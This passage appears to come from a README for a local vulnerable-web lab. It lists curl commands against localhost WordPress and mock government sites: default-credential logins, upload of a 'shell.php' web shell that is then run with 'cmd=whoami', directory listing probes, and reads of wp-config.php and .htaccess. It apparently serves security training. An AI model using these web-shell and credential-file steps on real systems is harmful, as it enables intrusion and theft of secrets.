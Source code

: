 ### **WordPress Testing**
```bash
# Test login page
curl "http://localhost:8000/wp-login.php"

# Test admin login
curl -X POST -d "log=wordpress-victim&pwd=admin123&wp-submit=Log+In" http://localhost:8000/wp-login.php

# Test Contact Form 7 upload
curl -X POST -F "file=@shell.php" http://localhost:8000/wp-content/plugins/contact-form-7/upload.php
```

### **Government Website Testing**
```bash
# Test admin panel
curl "http://localhost:8080/admin/"

# Test admin login
curl -X POST -d "username=admin&password=admin123" http://localhost:8080/admin/

# Test file upload
curl -X POST -F "file=@shell.php" http://localhost:8080/upload.php

# Test shell access
curl "http://localhost:8080/uploads/shell.php?cmd=whoami"
```

### **Directory Listing Testing**
```bash
# Test WordPress directories
curl "http://localhost:8000/wp-content/uploads/"
curl "http://localhost:8000/wp-content/plugins/"

# Test Government directories
curl "http://localhost:8080/uploads/"
curl "http://localhost:8080/admin/"
```

### **Sensitive Files Testing**
```bash
# Test WordPress sensitive files
curl "http://localhost:8000/sensitive-info.txt"
curl "http://localhost:8000/wp-config.php"

# Test Government sensitive files
curl "http://localhost:8080/sensitive-info.txt"
curl "http://localhost:8080/uploads/.htaccess"
```

## 🔒 **Security Recommendations**
